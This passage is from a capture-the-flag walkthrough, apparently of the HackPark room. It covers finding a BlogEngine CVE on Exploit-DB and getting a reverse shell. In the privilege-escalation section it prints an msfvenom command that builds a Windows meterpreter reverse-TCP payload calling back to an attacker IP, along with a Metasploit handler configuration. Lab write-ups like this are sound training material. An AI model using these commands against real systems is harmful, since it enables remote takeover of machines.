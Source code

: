 Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

Exploit: [Exploit-DB](https://www.exploit-db.com/exploits/46353)

### Flag 3.1

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

![img](https://i.imgur.com/9Gi3vyr.png)

> add `CVE-` then the exploit ID

### flag 3.2

**What is the CVE?**

![anir0y](https://i.imgur.com/aCgsF9E.png)

### flag 3.3

**Who is the webserver running as?**

get the reverse connection working as mentioned in `exploit page`, once that done run `whoami` command to get the ans. 

![img](https://i.imgur.com/PciOlWs.png)

---

## task 04: Windows Privilege Escalation

* generate the shell 
  
```bash
┌──(anir0y㉿kali)-[~/…/thm/room/hackpark/www]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.17.4.40 lport=1337 -f exe -o supershell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: supershell.exe
```

* msf.rc conf

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/hackpark]
└─$ cat www/msf.rc 
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.17.4.40
set lport 1337
set exitonsession false
exploit -j 
```
